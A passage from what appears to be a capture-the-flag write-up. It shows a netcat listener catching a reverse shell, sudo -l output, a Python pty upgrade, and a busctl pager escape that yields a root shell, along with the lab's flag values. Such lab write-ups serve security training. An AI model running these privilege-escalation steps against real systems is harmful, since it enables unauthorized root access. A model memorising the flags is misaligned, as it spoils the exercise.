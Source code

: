 ```python
cat flag4.txt   
LLPE{im_th3_m@nag3r_n0w}

```


#### Flag 5
```python
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.49] from (UNKNOWN) [10.129.85.233] 43346

sudo -l
Matching Defaults entries for tomcat on nix03:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tomcat may run the following commands on nix03:
    (root) NOPASSWD: /usr/bin/busctl
```

[source](https://infosecwriteups.com/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2)

The user can execute busctl as root without a password.  I need to break out of the limited shell

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@nix03:/var/lib/tomcat9$ sudo busctl --show-machine
sudo busctl --show-machine
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/bash
!//bbiinn//bbaasshh!/bin/bash
root@nix03:/var/lib/tomcat9# cat /root/flag5.txt
cat /root/flag5.txt
LLPE{0ne_sudo3r_t0_ru13_th3m_@ll!}
```


